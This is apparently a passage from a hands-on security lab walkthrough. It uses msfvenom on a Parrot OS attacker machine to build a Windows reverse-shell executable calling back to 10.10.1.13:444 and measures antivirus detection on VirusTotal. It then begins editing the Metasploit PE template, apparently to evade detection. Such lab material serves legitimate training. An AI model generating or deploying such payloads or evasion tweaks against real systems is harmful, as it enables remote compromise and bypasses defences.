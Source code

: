 ### 


3. Click the **MATE Terminal** icon at the top of the **Desktop** window to open a **Terminal** window.

```
Note: If a Question pop-up window appears asking you to update the machine, click No to close the window.
```
### 


4. A **Parrot Terminal** window appears. In the terminal window, type **sudo su** and press **Enter** to run the programs as a root user.
5. In the **[sudo] password for attacker** field, type **toor** as a password and press **Enter**.

```
Note: The password that you type will not be visible.
```
6. In the terminal window, type **msfvenom -p windows/shell_reverse_tcp lhost=10.10.1.13 lport=444 -f exe >**
    **/home/attacker/Windows.exe** and press **Enter** , to generate payload.

### 


7. Double click on **Firefox** icon, to open Firefox browser and type **https://www.virustotal.com** in the address bar and press **Enter**.

### 


8. In the **VirusTotal** website click on **Choose file** option, in the **File Upload** window navigate to the **/home/attacker** directory and
    select **Windows.exe** file and click on **Open**.

### 9. Once the file is uploaded click on Confirm upload button to start the analysis. 


10. After completing the analysis VirusTotal website shows the number of antivirus that have detected the virus.
11. In the above screenshot we can see that **54** out of **70** antivirus vendors have detected the malicious file.

### 


```
Note: The result might differ when you perform this task.
```
12. In the terminal, type **pluma /usr/share/metasploit-framework/data/templates/src/pe/exe/template.c** and press **Enter**.
13. A **template.c** file appears, in the line 3 change the payload size from **4096** to **4000** , save the file and close the editor.
